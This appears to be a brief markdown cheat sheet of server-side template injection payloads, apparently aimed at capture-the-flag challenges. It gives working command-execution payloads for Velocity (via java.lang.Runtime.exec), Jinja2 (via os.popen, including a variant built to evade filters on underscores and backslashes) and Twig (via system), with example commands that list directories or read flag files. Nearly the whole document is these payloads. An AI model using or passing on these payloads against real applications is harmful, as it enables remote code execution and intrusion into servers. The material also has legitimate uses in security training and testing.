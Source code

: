 #### Velocity template Langauge payload:

```
#set($engine="string")#set($run=$engine.getClass().forName("java.lang.Runtime"))#set($runtime=$run.getRuntime())#set($proc=$runtime.exec("ls -al"))#set($null=$proc.waitFor())#set($istr=$proc.getInputStream())#set($chr=$engine.getClass().forName("java.lang.Character"))#set($output="")#set($string=$engine.getClass().forName("java.lang.String"))#foreach($i in [1..$istr.available()])#set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))#end$output
```

#### Jinja payload <i>(Python)</i> : 

```py
 #normal payload
 {{ ''.__class__.__base__.__subclasses__()[103].__init__.__globals__['sys'].modules['os'].popen("ls").read() }}

 #payload without '_' and without '\' 
{% set c='%c%c'|format(95,95) %}  {{ dict.mro()[-1] | attr(c~'subclasses'~c)() | attr(c~'getitem'~c)(183) |attr(c~'init'~c) | attr(c~'globals'~c) | attr(c~'getitem'~c)('sys') | attr('modules') | attr(c~'getitem'~c)('os') | attr('popen')('cat flag*') | attr('read')() }}

 #shortcuts
 {{ url_for.__globals__.os.popen("ls").read() }}
 {{ self.__init__.__globals__.__builtins__.open("/flag.txt").read() }}
 ```

### Twig

```py
{{['cat${IFS}/flag.txt']|filter('system')}}
```

![image](https://github.com/user-attachments/assets/d812c5f3-2f59-476a-a1e8-6a7ae978695a)

